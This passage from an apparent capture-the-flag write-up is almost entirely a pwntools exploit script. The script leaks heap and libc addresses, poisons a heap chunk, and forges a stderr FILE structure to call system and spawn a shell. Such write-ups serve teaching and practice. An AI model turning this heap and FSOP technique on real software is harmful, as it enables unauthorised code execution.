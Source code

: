 ```python

mound = fixleak(rl()) - 0x238
log.info(f"mound => {hex(mound)}")
libc.address = mound + 0x12000 - 0x2000
log.info(f"libc => {hex(libc.address)}")

stderr = libc.sym._IO_2_1_stderr_ - 0x8
log.info(f"stderr {hex(stderr+0x8)}")
ru(b"Exit")
edit(0, p64(mound))
create(2, 0x3ff)
create(4,0xe8+0x4)
free(4)
edit(2,p64(0)*15 + b"\x00"*4 +  p64(stderr-0x8))
create(5,0xe8+0x4)
# stderr-FSOP-stub from @TheFlash2k
vtable = libc.sym._IO_wfile_jumps
io_file = libc.sym._IO_2_1_stderr_
payload = flat(
    0x687320,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, libc.sym.system, 0x00, 0x00, 0x00, 0x00,
    0x0, 0x0, 0x00, libc.bss()+0x100, 0x00,
    io_file+0x20, io_file-0x20,
    0x0, 0x0, 0x0, (io_file-0xe0)+0xc0, 0x0, 0x0,
    vtable)
ru(b"Exit")
menu(4)
sla(b">  ", b"5")
ru(b">  ")
s(b"\x00"*12 + payload)
ru(b"Exit")
ru(b">  ")
sl(b"0")

p.interactive()

```

![Screenshot](/static/writeups/litctf/6.png)